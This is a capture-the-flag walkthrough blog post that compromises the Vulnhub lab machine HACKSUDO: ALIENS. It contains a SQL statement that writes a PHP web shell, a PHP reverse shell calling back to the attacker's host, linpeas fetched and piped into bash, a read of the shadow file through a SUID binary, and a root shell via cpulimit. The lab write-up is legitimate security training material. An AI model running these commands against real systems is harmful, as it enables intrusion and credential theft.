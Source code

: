 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: ALIENS"
date:   2021-04-09 19:00:00 +1100
category: hacking
---
```


## HACKSUDO: ALIENS
*This box should be easy . This machine was created for the InfoSec Prep Discord Server (https://discord.gg/tsEQqDJh)*

This is [HACKSUDO: ALIENS](https://www.vulnhub.com/entry/hacksudo-aliens,676/) from Vulnhub. I also did [COLDDWORLD: IMMERSION](https://www.vulnhub.com/entry/colddworld-immersion,668/) which was LFI to SSH login to editing a python script. I don't have anymore to say about that.

## Ports
SSH, plus HTTP on ports 80 and 9000.

## HTTP/9000
This has got phpMyAdmin, which isn't working with any kind of default creds. I enumerate the webserver and find some stuff, but nothing too interesting.

## HTTP/80
This has stuff about aliens. Let's look around:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo]
└─# python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.195     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848
Error Log: /opt/dirsearch/logs/errors-21-04-09_07-30-48.log
Target: http://192.168.1.195/
Output File: /opt/dirsearch/reports/192.168.1.195/_21-04-09_07-30-48.txt

# snip
[07:30:51] 200 -   16B  - /README.md                                              
[07:30:55] 301 -  315B  - /backup  ->  http://192.168.1.195/backup/
[07:30:55] 200 -  941B  - /backup/        
# snip
{% endhighlight %}

What's in backup? **mysql.bak**. What's in that?

># Database credentials  
user="vishal"  
password="hacksudo"  
host="localhost"  

With this, we can login to phpMyAdmin.

## phpMyAdmin
After I've looked around, grabbed some hashes and had a go at cracking them, then tried password reuse on SSH with no success, I use a SQL statement to create a PHP file on the server:

{% highlight sql %}
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE '/var/www/html/cmd1.php'
{% endhighlight %}

This works and I use it to get a shell:

``
GET /cmd1.php?cmd=php+-r+'$sock%3dfsockopen("192.168.1.192",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
``

## Hacksudo
I run linpeas:

``
www-data@hacksudo:/dev/shm$ curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | bash
``

Which shows that **date** has the SUID bit; [GTFOBins](https://gtfobins.github.io/gtfobins/date/) gives a file read:

>LFILE=file_to_read  
sudo date -f $LFILE

I use this to read the *shadow* file, and then send the hash for *hacksudo* to john, where it cracks. Now, we can SSH in as *hacksudo*.

## Root

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/hacksudo]
└─# ssh hacksudo@192.168.1.195                                                                                                                                                        1 ⨯
hacksudo@192.168.1.195's password: 
Linux hacksudo 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr  4 02:12:24 2021 from 192.168.43.217
hacksudo@hacksudo:~$ pwd
/home/hacksudo
{% endhighlight %}

I run linpeas again, and we have **cpulimit** with the SUID bit in our home directory. Again, it's GTFOBins:

{% highlight shell %}
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/sh -p
Process 31419 detected
# id;hostname
uid=1000(hacksudo) gid=1000(hacksudo) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner),1000(hacksudo)
hacksudo
# cd /root
# ls -lash 
total 40K
4.0K drwx------  4 root root 4.0K Apr  4 01:35 .
4.0K drwxr-xr-x 19 root root 4.0K Apr  3 09:56 ..
4.0K -rw-------  1 root root 1.7K Apr  3 13:43 .bash_history
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwx------  2 root root 4.0K Mar 28 08:18 .cache
4.0K drwxr-xr-x  3 root root 4.0K Apr  3 09:22 .local
4.0K -rw-------  1 root root 1.1K Apr  3 10:18 .mysql_history
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -r--------  1 root root  552 Apr  4 01:35 root.txt
4.0K -rw-r--r--  1 root root  227 Apr  3 13:22 .wget-hsts
# cat root.txt
# snip ascii art

congratulations you rooted hacksudo alien56...!!!
flag={d045e6f9feb79e94442213f9d008ac48}
{% endhighlight %}

So fairly easy, but I don't think I've done the SQL to outfile in phpMyAdmin before.
